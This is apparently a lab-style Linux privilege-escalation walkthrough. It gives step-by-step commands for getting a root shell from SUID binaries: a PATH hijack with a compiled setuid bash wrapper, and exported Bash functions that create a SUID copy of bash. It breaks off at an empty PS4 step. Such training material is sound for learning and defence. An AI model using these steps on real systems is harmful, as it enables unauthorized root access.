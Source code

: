 - The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.
- First, execute the file and note that it seems to be trying to start the apache2 webserver:
````
/usr/local/bin/suid-env
````
- Run strings on the file to look for strings of printable characters:
````
strings /usr/local/bin/suid-env
````
- One line `service apache2 start` suggests that the service executable is being called to start the webserver, however the full path of the executable `/usr/sbin/service` is not being used.
````
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
````
- Compile the code `service.c` into an executable called service. This code simply spawns a Bash shell:
````
gcc /tmp/service.c -o /tmp/service
````
- Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:
````
export PATH=/tmp:$PATH
````
- Rin the executable with an absolute path
````
/usr/local/bin/suid-env
id
````
### SUID and SGID Executables-Abusing Shell Features 1
- Detection
````
 find / -type f -perm -04000 -ls 2>/dev/null
````
- Make note of all the SUID binaries 
- The `/usr/local/bin/suid-env2` executable is identical to `/usr/local/bin/suid-env` except that it uses the absolute path of the service executable `/usr/sbin/service` to start the apache2 webserver.
Verify this with strings:
````
strings /usr/local/bin/suid-env2
````
- In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.
- Verify the version of Bash installed on the Debian VM is less than 4.2-048:
````
/bin/bash --version
````
Create a Bash function with the name `/usr/sbin/service` that executes a new Bash shell (using -p so permissions are preserved) and export the function:
````
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
````
- Run the suid-env2 executable to gain a root shell:
````
/usr/local/bin/suid-env2
````
#### SUID and SGID Executables-Abusing Shell Features 2
- Note: This will not work on Bash versions 4.4 and above.
- When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.
- Run the `/usr/local/bin/suid-env2` executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of `/bin/bash`:
````
````